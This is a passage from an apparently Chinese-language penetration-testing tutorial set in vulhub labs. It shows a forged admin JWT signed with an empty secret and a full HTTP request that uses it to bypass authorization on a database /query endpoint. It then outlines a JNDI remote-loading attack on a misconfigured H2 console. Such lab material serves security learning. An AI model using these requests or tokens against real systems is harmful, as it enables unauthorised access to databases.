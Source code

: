 ```plain
这个时候，就利用到jwt来进行未授权绕过。

1、借助https://jwt.io/来生成jwt token：
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "admin",
  "exp": 1676346267
}

注意在秘钥哪里需要留空。
生成：eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc2MzQ2MjY3fQ.NPhb55F0tpsp5X5vcN_IkAAGDfNzV5BA6M4AThhxz6A
```

![1649472312124-bdd94c48-65df-4e4a-8cbe-ac9382fa2b9e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134219784-1364899390.png)

```plain
抓包，然后修改数据包：
POST /query HTTP/1.1
Host: 192.168.233.128:8086
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc2MzQ2MjY3fQ.NPhb55F0tpsp5X5vcN_IkAAGDfNzV5BA6M4AThhxz6A
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

db=sample&q=show+users
```

![1649472505140-62645e51-6635-4686-992a-c2372f7c86cc.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134219390-1135537588.png)

- H2database-未授权访问-配置不当

```plain
与redis配置是一样的
web端口：8080
默认端口：20051
H2 database是一款Java内存数据库，多用于单元测试。H2 database自带一个Web管理页面，在Spirng开发中，如果我们设置如下选项，即可允许外部用户访问Web管理页面，且没有鉴权，配置如下：
spring.h2.console.enabled=true 
spring.h2.console.settings.web-allow-others=true 

利用到的工具是java内置的攻击：JNDI攻击。这个是由于java内置的语言不同特性决定的。java网站运行有两种情况：1.自写源代码来进行运行 2.运行jar包

利用流程是：
1.下载利用文件
2.利用这个文件去生成一个payload
3.让这个地址去加载远程文件。

启动环境：
cd /vulhub-master/h2database/h2-console-unacc
docker-compose up -d
```
